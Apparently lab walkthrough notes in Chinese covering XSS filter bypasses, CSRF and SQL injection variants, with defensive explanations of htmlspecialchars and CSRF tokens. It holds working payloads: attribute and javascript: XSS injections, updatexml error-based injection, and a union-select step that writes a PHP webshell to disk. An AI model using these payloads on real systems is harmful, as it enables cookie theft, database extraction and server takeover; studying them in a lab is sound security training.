
登录后台查看，发现代码被执行了

##  XSS 过滤
- 即对输入进行了一些过滤
- 然后尝试各种输入并观察输出，看哪些被过滤了（这里 </script 和 <script 被过滤了）
- 最后选择合适的标签进行 XSS 攻击


## XSS 与 htmlspecialchars
`htmlspecialchars` 是 PHP 中一个广泛使用的函数，主要作用是把某些预定义字符转换为 HTML 实体，确保这些字符在网页上正确、安全地显示，而不会被浏览器解释为 HTML 标签或脚本的一部分。这对防范跨站脚本（XSS）攻击尤为重要，因为它可以阻止恶意用户注入 HTML 或 JavaScript 代码来操纵页面内容或窃取用户数据。

### 转换规则
`htmlspecialchars` 函数把以下五个预定义字符转换为对应的 HTML 实体：
- 小于号（`<`）转换为 `&lt;`
- 大于号（`>`）转换为 `&gt;`
- 和号（`&`）转换为 `&amp;`
- 双引号（`"`）转换为 `&quot;`（指定 `ENT_COMPAT` 或 `ENT_QUOTES` 标志时）
- 单引号（`'`）转换为 `&#039;`（指定 `ENT_QUOTES` 标志时）

### 用法
基本语法如下：
```php
htmlspecialchars(string $string, int $flags = ENT_COMPAT | ENT_HTML401, string $encoding = 'UTF-8', bool $double_encode = false): string
```
- `$string`：要转换的原始字符串。
- `$flags`：定义转换的类型和级别，例如 `ENT_QUOTES` 会同时转换双引号和单引号。
- `$encoding`：指定字符编码，默认为 `UTF-8`。
- `$double_encode`：设置为 `false` 时，如果字符串中已存在 HTML 实体，则不会再次转换，避免对已编码的实体重复编码。

### 示例
```php
$text = "<script>alert('XSS Attack');</script>";
$safe_text = htmlspecialchars($text, ENT_QUOTES, 'UTF-8');
echo $safe_text;
```
输出为：
```html
&lt;script&gt;alert(&#039;XSS Attack&#039;);&lt;/script&gt;
```
在这个例子中，本可能触发 XSS 攻击的脚本被转换为可安全显示的 HTML 实体，浏览器直接显示文本内容而不执行脚本，从而保护了网站及其用户。

- 先尝试输入，看哪些字符被转换成了实体
- 再选择绕过方法（这里尖括号被过滤了，所以用单引号闭合属性）


注入 `#' onclick='alert(1)'`


## XSS 之 href 输出
- 此时尖括号和引号都被过滤了
- 着眼于当前标签，尝试使用其他协议


输入 `javascript:alert(document.cookie)`

在 HTML 中，`<a>` 标签的 `href` 属性不仅可以指向普通网址（如 http://example.com），还可以指向以 `javascript:` 等特殊协议开头的 URL，这样用户点击链接时就可以直接执行一段 JavaScript 代码。

### 示例说明：

假设一个网页中包含如下 HTML 片段：

```html
<a href="javascript:alert(document.cookie)">点击获取Cookie</a>
```

这里的 `<a>` 标签看起来是一个普通链接，但实际上用户点击这个链接时，浏览器不会跳转到新页面，而是在当前页面直接执行 `href` 属性中指定的 JavaScript 代码——`alert(document.cookie)`。

这段 JavaScript 代码的作用是弹出一个警告框，显示当前页面的 document cookie。`document.cookie` 是一个 JavaScript 属性，用于获取当前页面的 cookie 信息。

## XSS 之 JS 输出
- 输入的内容会被嵌入 JavaScript 代码中

输入 `<script>alert(document.cookie)</script>`，发现 script 被提前闭合了，尖括号、标签和引号都没有被过滤


输入 `';alert(1);//`

# CSRF（跨站请求伪造）
- 攻击者伪造一个请求（这个请求通常是一个链接）
- 然后诱骗目标用户点击
- 用户点击该请求，攻击随之发起

> CSRF 是借用户的权限完成攻击，攻击者并没有拿到用户的权限；而 XSS 是直接盗取用户的权限，然后实施破坏。


## CSRF（GET）
- 获取修改用户信息的 URL（由于是通过 GET 请求的，其他用户点击该 URL 也会对当前用户生效）
- 把这个 URL 做成链接让被攻击用户点击，攻击就发起了



## CSRF（POST）
- 与 GET 类似，区别是不能仅通过 URL 完成，而是需要伪造一个包含表单的网页，通过提交表单发送 POST 请求
- 让用户跳转到构造好的恶意网页并点击提交，POST 请求就发送出去了



##   CSRF Token
[https://blog.csdn.net/m0_46467017/article/details/124795334](https://blog.csdn.net/m0_46467017/article/details/124795334)

- 每次访问页面 URL 时，服务器返回的前端页面都会携带服务器设置的 token 值。
- 发起请求时，把当前获取的 token 值发给后端，后端比较这个 token 值与设置时保留的 token 值是否一致
- 这样可以防止 CSRF，因为当前 URL 携带了 token，而构造的恶意链接无法知道被攻击用户当前的 token，所以访问该链接不会生效


# SQL Inject（SQL 注入）
[https://blog.csdn.net/elephantxiang/article/details/115771540](https://blog.csdn.net/elephantxiang/article/details/115771540)
- 前端输入的 SQL 在后端拼接时被当作 SQL 语句的一部分执行

攻击流程
- 闭合引号/分隔符
-  用 union select 判断列数（或事先用 order by n 判断列数）
-  爆出当前数据库
-  爆出当前数据库包含的表
- 爆出某个表包含的列名
- 爆出该表各列的数据
- 用 union select load_file(数据库上文件的地址) 爆出当前文件内容（如数据库配置）
- 用 union select '<?php assert($_POST[1]);?>' into outfile '文件地址' 把木马写入文件


SQL 语法
- UNION 查询的列数必须相等：使用 UNION 操作时，所有连接的查询部分必须返回相同数量的列。这意味着如果第一个查询返回 n 列，那么后面的每个 UNION SELECT 语句也必须返回 n 列。否则 SQL 语法错误，数据库不会执行该查询。

- 在 URL 中，`%23` 是一个 URL 编码字符，表示符号 `#`。在 HTTP 请求和 URL 中，某些字符因为有特殊含义或不安全而需要编码。`#` 就是其中之一：它在 URL 中标记片段标识符，即 URL 中 "#" 之后的部分不会发送给服务器，而是由浏览器解析，用于定位页面中的特定位置。


## 数字型注入（POST）
不需要特殊闭合，直接进行 union 注入即可


## 字符型注入（GET）
- 先用 HackBar 测试合适的语句
- 再用 Burp Suite 观察（HackBar 发送前会进行 URL 编码，Burp Suite 收到的是编码后的版本）



## 搜索型（LIKE）注入
注意引号和标点
### 使用示例

假设有一个名为 `products` 的表，其中 `product_name` 列存放商品名称，我们想找出所有商品名称包含 "phone" 的记录，可以使用如下 SQL 语句：

```sql
SELECT * FROM products WHERE product_name LIKE '%phone%';
```

这个查询会返回 `product_name` 中任意位置包含字符串 "phone" 的所有记录，例如 "SmartPhone X10"、"iPhone 13 Pro" 和 "Headphone Stand" 都会被匹配到。

### 其他模式匹配示例

- `'%input_'`：查找以 "input" 开头、后面恰好跟一个任意字符的记录。
- `'_input%'`：查找以 "input" 结尾、前面有一个任意字符的记录。
- `'%input'`：查找所有以 "input" 结尾的记录。
- `'input%'`：查找所有以 "input" 开头的记录。



## xx 型注入
只是闭合方式不同，闭合符号变成了 ')



##  insert/update 注入

```bash
insert into 表名 (列名，列名……) values （值,值……）
update 表 set 列名=值,set 列名=值…… where 限制
```
insert 是注册，update 是修改信息，两者的注入逻辑类似

没有回显时，使用报错注入
发现是单引号闭合

- **`username=xixi' or`**：这部分试图闭合原 SQL 查询中 `username` 字段的单引号，并添加一个恒真条件（`OR TRUE` 的等价形式），确保即使前面的用户名校验失败，整个 WHERE 子句也成立。

- **`updatexml(1,concat(0x7e,(select database()),0x7e),1)`**：
    - `UPDATEXML` 是一个 XML 处理函数，通常用于更新 XML 文档中的节点。但在注入场景下它被滥用来提取数据。
    - `concat(0x7e,...,0x7e)` 用于把特殊字符 `~` 与 `SELECT DATABASE()` 查询的结果拼接起来。`SELECT DATABASE()` 是 MySQL 的函数，返回当前连接的数据库名。
    - `0x7e` 是波浪号（`~`）的十六进制表示，攻击者用它作为包裹数据库名的分隔符，使数据在 XML 处理的报错信息中更容易识别。
    - 整个表达式的目的是构造一个无效的 XML 更新操作来触发报错，从而返回包含数据库名的报错信息。

- **`or '`**：同样利用 `OR TRUE` 逻辑，确保整个 SQL 逻辑表达式为真。

- 剩下的 `&password=666666&sex=&phonenum=&email=&add=&submit=submit` 是其他表单字段的值，不是这次注入尝试的关键部分。

爆出当前用户

爆出当前版本


爆出数据文件存放目录
  `substr(string, start_position, length)`
- string 是原始字符串。
- start_position 指定从字符串的哪个位置开始截取（大多数数据库中位置从 1 开始计数）。
- length 指定要截取的字符数。



update 注入类似


## delete 注入

```bash
delete from 表名称 where 列名 = 值 
```
由于是数字型，不需要闭合，末尾也不需要加注释，因为还有一个双引号来闭合整个 SQL 语句


## HTTP 头注入
与 insert 注入差不多

这里返回的结果是一个重定向页面，需要在代理中配置

